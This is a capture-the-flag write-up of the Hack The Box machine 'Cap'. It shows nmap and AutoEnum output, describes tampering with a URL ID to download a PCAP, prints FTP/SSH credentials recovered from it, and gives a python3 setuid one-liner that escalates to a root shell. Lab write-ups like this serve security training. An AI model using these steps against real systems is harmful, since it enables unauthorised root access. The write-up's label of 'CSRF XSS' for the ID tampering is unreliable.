







# Cap 

Cap is an easy machine of HTB.
Usually I use manual approach, but i stumbled upon this great tool of an arsenal.
**AutoEnum**

Autoenum does enumuration on your behalf. Most of the findings are good, but a lot of them are rabbit holes.
Here is a truncated result of autoenum.



```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-05 23:54 IST
Nmap scan report for 10.10.10.245
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| vulscan: VulDB - https://vuldb.com:
| [68991] vsftpd 3.0.2 deny_file unknown vulnerability
    ---------------TRUNCATED---------------
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulscan: VulDB - https://vuldb.com:
| [155909] OpenSSH 8.2 scp Client privilege escalation
    ---------------TRUNCATED-----------------------_
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
    -------Truncated--------
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.63 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-05 23:56 IST
Stats: 0:03:16 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.63% done; ETC: 23:59 (0:00:03 remaining)                                                                                                                                                                              
Stats: 0:03:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan                                                                                                                                                                 
NSE Timing: About 98.63% done; ETC: 23:59 (0:00:03 remaining)                                                                                                                                                     

-----TRUNCATED-------

Nmap scan report for 10.10.10.245
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
22/tcp open  ssh
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.245
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.245:80/
|     Form id: 
|     Form action: #
|     
|     Path: http://10.10.10.245:80/data/9
|     Form id: 
|     Form action: #
|     
|     Path: http://10.10.10.245:80/netstat
|     Form id: 
|_    Form action: #
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

Nmap done: 1 IP address (1 host up) scanned in 954.15 seconds

```



Here we find a CSRF XSS vulnerability. We can exploit by putting manually another value instead of '4'. So I wanted to know what was the first connection reuests on this machine. So I chose '0'.


We download the PCAP file (because it looks fishy, the data, and the machine's name is as well 'CAP').


We found the credentials after a little searching.

#### USER:nathan
#### PASS:Buck3tH4TF0RM3!



I logged-in using ftp and downloaded the user.txt.

```
get user.txt
```



Trying the same credentials for SSH, It works.

For Privilege escalation, I used 'LinPeas'.
Its a great tool for quick searching of vulnerabilities in a system.


We found some intresting capabilities.
<https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/>



We used local arbitary code privilege escalation for this.

```python
python3 -c "import os;os.setuid(0);os.system('/bin/bash')"
```
(Here ';' in python is used as a delimeter).